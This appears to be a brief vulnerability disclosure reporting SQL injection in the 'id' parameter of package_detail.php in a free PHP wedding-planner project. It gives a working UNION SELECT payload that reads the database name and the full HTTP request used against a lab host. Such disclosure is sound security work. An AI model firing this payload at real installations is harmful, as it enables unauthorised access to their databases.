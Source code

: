 # Wedding Planner v1.0 by pushpam02 has SQL injection

BUG_Author: JunyuChen

vendors: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability File: /Wedding-Management-PHP/package_detail.php?id=

Vulnerability location: /Wedding-Management-PHP/package_detail.php?id=, id

[+] Payload: /Wedding-Management-PHP/package_detail.php?id=-5%20union%20select%201,database(),3,4--+

dbname = dbwedding

```sql
GET /Wedding-Management-PHP/package_detail.php?id=-5%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183276767-242afea4-93e2-4ed7-adf2-5dfcc4706d82.png)

